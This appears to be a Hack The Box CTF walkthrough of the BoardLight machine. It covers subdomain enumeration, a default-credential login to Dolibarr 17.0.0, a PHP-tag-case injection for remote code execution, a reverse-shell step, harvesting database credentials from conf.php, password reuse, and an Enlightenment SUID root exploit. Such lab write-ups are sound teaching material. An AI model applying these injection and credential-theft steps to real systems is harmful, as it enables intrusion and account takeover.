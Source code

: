 ```yaml
---
date: 2025-01-15
categories: [CTF, HTB]
title: ""
tags: ['gobuster', 'nmap', 'privilege escalation', 'rce', 'tryhackme', 'hackthebox', 'immersivelabs', 'thm', 'iml', 'htb']

description: "BoardLight - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# HTB - BoardLight

NMAP

![image1](../resources/c584a483f0864c0eb03583194f9d116d.png)

- From the website we get the domain name:

![image2](../resources/14b6dca24a1345e5bdf1e13fa77d9aff.png)

Add board.htb to /etc/hosts

- Subdomain enum:

`gobuster vhost -u http://board.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -t 64 --append-domain`


![image3](../resources/0ebd3032692f4606bee68d2167100955.png)

We get:

**crm.board.htb**:

- Got a login site:

![image4](../resources/2bace493e6bf4f4eb6d011c15f32677a.png)

Guessed **admin : admin**

- And we're in:

![image5](../resources/4d0b4e9f990a46fc9406753737c3793c.png)

- We can see it runs **Dolibarr 17.0.0**

**<u>RCE exploit:</u>**

On the website tab - we can get RCE
<https://www.swascan.com/security-advisory-dolibarr-17-0-0/>

(The website resets quite often)

- Create new website
- Import website template
(I chose the first template and used the About Us page)
- Edit HTML Source

- I tested with:
\<?php includeContainer('header'); ?\>

\<section id="mysection1" contenteditable="true"\>

```bash
\<?**PHP** echo system("whoami");?\>

```
\</section\>

\<?php includeContainer('footer'); ?\>


![image6](../resources/fdbf7bdebb1648a2b2616aca7689f0df.png)

- Now if we use Pentestmonkey PHP rev shell and paste that inside the boilerplate code:
\<?php includeContainer('header'); ?\>

\<section id="mysection1" contenteditable="true"\>

**\<Pentest Monkey code - Change to Capital PHP\>**

\</section\>

\<?php includeContainer('footer'); ?\>


![image7](../resources/1fa07d7e4e8f40ac92a600ca3eaa0cdc.png)

- Set up listener
- Click save

![image8](../resources/5882ae1f6f5a4443b03e4b82cdcb113f.png)

```bash
/usr/bin/script -qc /bin/bash /dev/null

```
- Upload LinPEAS

We can see port 3306 open - MySQL


![image9](../resources/484b5c2483254a3bb3e9797058197f0a.png)

Also, it found a database.php file:

/var/www/html/crm.board.htb/htdocs/admin/system/database.php


![image10](../resources/1ded344e823e49cd8c1de071f3bc06da.png)

The file itself shows us the variables imported from the conf.php file ie. \$dolibarr_main_db_pass

- The conf file is located in:
/var/www/html/crm.board.htb/htdocs/conf/conf.php


![image11](../resources/f37dc24e41704f149c64592c64d6b649.png)

And here we get MySQL creds

\$dolibarr_main_db_user='**dolibarrowner**';

\$dolibarr_main_db_pass='**serverfun2\$2023!!**';


![image12](../resources/7987608bca534100b188f1bbf75a43fb.png)

```bash
show databases;
use dolibarr;
show tables;

```
There are a lot of tables in the DB

To find which have data do:

```bash
SELECT TABLE_NAME,TABLE_ROWS FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA = 'dolibarr';

```

![image13](../resources/0bdac24f00f146cd9b7d6f450fedea2b.png)


![image14](../resources/f0cd93d40d4a42cfa74a6d846d8a0758.png)

- After messing around with trying to crack the hash - which is a dead end and not needed:

I reused the mysql user password for larissa.

```bash
su larissa

# serverfun2\$2023!!
```

![image15](../resources/a6de4baf5e264e299fb613e990805b06.png)

- We can now SSH in

![image16](../resources/93cc749938ad404983752f4386230aea.png)

```bash
cat user.txt

```
**<u>Priv Esc</u>**

- In LinPEAS (updated version) - we see the unknown SUID binaries - enlightenment:

![image17](../resources/de2f56d2bcdc4483b51ff7ec52b00994.png)

- There is an exploit for this:
<https://www.exploit-db.com/exploits/51180>

- Run the bash script:

![image18](../resources/b9c6bf178c7643898908e1cce9a8f461.png)

- Root:

![image19](../resources/afb75ccbe05648fb914a5c94418df6f5.png)